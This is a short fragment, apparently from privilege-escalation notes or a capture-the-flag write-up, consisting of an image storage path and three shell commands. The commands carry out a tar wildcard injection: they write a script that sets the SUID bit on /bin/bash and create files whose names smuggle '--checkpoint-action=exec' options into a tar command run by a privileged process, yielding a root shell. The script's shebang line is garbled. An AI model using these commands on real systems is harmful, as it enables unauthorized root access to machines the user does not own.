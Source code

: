 	echo '#/!bin/bash\nchmod +s /bin/bash' > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1